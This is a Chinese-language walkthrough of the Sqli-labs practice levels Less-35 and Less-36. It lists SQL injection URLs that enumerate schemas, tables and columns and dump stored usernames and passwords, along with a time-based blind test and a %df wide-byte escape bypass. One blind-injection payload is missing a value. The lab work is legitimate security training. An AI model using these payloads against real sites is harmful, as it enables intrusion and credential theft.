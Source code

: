 **查看所有字段**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+<br />![](https://img-blog.csdnimg.cn/20200725122922594.png#crop=0&crop=0&crop=1&crop=1&id=TfvtY&originHeight=165&originWidth=1344&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有账户密码**<br />http://www.web.com/sql/Less-35/?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+<br />![](https://img-blog.csdnimg.cn/20200725123048701.png#crop=0&crop=0&crop=1&crop=1&id=vdezS&originHeight=143&originWidth=1340&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

# Sqli-labs-Less-35 方法二
![image.png](_img/assets/1654701167720-d54839ae-2ae8-4714-8de9-0fc53bdbf089.png)
**判断当前库名称长度**<br />http://www.web.com/sql/Less-35/?id=1 and if(length(database())=,1,sleep(2))--+<br />没有延时并返回正确则说明正确，有延时则说明错误

**判断当前数据库首字母（0x73是s的十六进制）**<br />**http://www.web.com/sql/Less-35/?id=1 and if(substr((select database()),1,1)=0x73,1,sleep(2))--+**<br />没有延时并返回正确则说明正确，有延时则说明错误<br />以下步骤与Sqli-labs-Less-8相同


# Sqli-labs-Less-36
![](https://img-blog.csdnimg.cn/20200725144431414.png#crop=0&crop=0&crop=1&crop=1&id=V24AY&originHeight=78&originWidth=1068&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)**查找注入点**<br />http://www.web.com/sql/Less-36/?id=1'<br />提示显示被转义<br />![](https://img-blog.csdnimg.cn/20200725144734926.png#crop=0&crop=0&crop=1&crop=1&id=RFgf7&originHeight=77&originWidth=494&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**加上%df，报错**<br />http://www.web.com/sql/Less-36/?id=1%df'<br />![](https://img-blog.csdnimg.cn/20200725144819429.png#crop=0&crop=0&crop=1&crop=1&id=IHpa8&originHeight=69&originWidth=1348&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**进行注释，成功**<br />http://www.web.com/sql/Less-36/?id=1%df'--+<br />![](https://img-blog.csdnimg.cn/20200725145052468.png#crop=0&crop=0&crop=1&crop=1&id=VilnY&originHeight=142&originWidth=368&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看列数**<br />http://www.web.com/sql/Less-36/?id=1%df' order by 3--+<br />![](https://img-blog.csdnimg.cn/2020072514514518.png#crop=0&crop=0&crop=1&crop=1&id=DPzvB&originHeight=38&originWidth=467&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当为4时报错，为3时正确，说明有3列

**查看当前库**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,database()--+<br />![](https://img-blog.csdnimg.cn/20200725145313710.png#crop=0&crop=0&crop=1&crop=1&id=zcmAy&originHeight=123&originWidth=284&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有库**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(schema_name) from information_schema.schemata--+<br />![](https://img-blog.csdnimg.cn/20200725145404683.png#crop=0&crop=0&crop=1&crop=1&id=xmFHU&originHeight=143&originWidth=1224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有表**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479--+<br />![](https://img-blog.csdnimg.cn/20200725145516631.png#crop=0&crop=0&crop=1&crop=1&id=rht5f&originHeight=150&originWidth=600&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看所有字段**<br />http://www.web.com/sql/Less-36/?id=1%df' union select 1,2,group_concat(column_name) from information_schema.columns where table_name=0x7573657273--+<br />![](https://img-blog.csdnimg.cn/20200725145614513.png#crop=0&crop=0&crop=1&crop=1&id=CkaJ8&originHeight=181&originWidth=1348&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
